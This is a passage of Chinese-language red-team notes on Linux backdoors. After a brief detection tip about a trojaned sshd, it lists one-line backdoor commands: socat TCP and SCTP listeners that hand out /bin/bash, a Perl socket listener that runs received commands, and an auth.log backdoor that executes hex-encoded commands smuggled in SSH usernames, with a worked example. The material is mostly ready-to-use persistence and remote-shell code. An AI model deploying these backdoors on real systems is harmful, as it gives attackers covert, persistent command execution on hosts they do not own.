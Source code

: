 **检测清除**

```strings /usr/sbin/sshd```  可以看到写入的密码信息

![image-20200401221806397](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200401221806397.png)



### 15. 一句话命令后门(socat/perl)

> **SOCAT  TCP**

LISTEN:

```socat TCP4-Listen:3177,fork EXEC:/bin/bash &```

CONNECT:

```socat STDIO TCP4:IP:3177```

> **SOCAT SCTP**

LISTEN:

```socat SCTP-Listen:1177,fork EXEC:/bin/bash &```

CONNECT:

```socat STDIO SCTP:IP:1177```

> **PERL TCP**

LISTEN:

```perl -MIO -e'$s=new IO::Socket::INET(LocalPort=>1337,Listen=>1);while($c=$s->accept()){$_=<$c>;print $c `$_`;}' &```

CONNECT

```socat STDIO TCP4:IP:1337```

> **AUTH.LOG**

LISTEN

```perl -e'while(1){sleep(1);while(<>){system pack("H*",$1)if/LEGO(\w+)/}}'</var/log/auth.log & ```

EXECUTE REMOTE COMMAND:

```bash
#先执行perl脚本
perl -e 'print "LEGO".unpack("H*","id > /tmp/auth.owned")."\n"'

LEGO6964203e202f746d702f617574682e6f776e6564
然后执行
ssh LEGO6964203e202f746d702f617574682e6f776e6564@<target_ip>
```

